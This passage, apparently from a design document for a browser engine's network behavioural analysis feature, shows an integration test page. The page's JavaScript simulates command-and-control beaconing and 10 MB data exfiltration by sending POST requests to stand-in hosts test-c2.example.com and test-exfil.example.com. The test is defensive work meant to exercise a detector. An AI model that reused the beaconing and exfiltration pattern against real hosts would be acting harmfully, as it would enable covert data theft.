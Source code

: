 ```cpp
}
```

### 6.2 Integration Tests

**File**: `Tests/LibWeb/Text/input/network-behavioral-analysis.html`

```html
<!DOCTYPE html>
<html>
<head>
    <title>Network Behavioral Analysis Test</title>
</head>
<body>
    <script>
        // Test beaconing detection
        function testBeaconing() {
            let count = 0;
            const interval = setInterval(async () => {
                await fetch('https://test-c2.example.com/beacon', {
                    method: 'POST',
                    body: 'ping'
                });
                count++;
                if (count >= 10) {
                    clearInterval(interval);
                    println("Beaconing test complete");
                }
            }, 5000);  // Every 5 seconds
        }

        // Test exfiltration detection
        async function testExfiltration() {
            const largeData = 'X'.repeat(10 * 1024 * 1024);  // 10 MB
            for (let i = 0; i < 5; i++) {
                await fetch('https://test-exfil.example.com/upload', {
                    method: 'POST',
                    body: largeData
                });
            }
            println("Exfiltration test complete");
        }

        // Run tests
        println("Starting network behavioral analysis tests");
        // Note: Actual test would mock RequestServer responses
    </script>
</body>
</html>
```

### 6.3 Performance Benchmarks
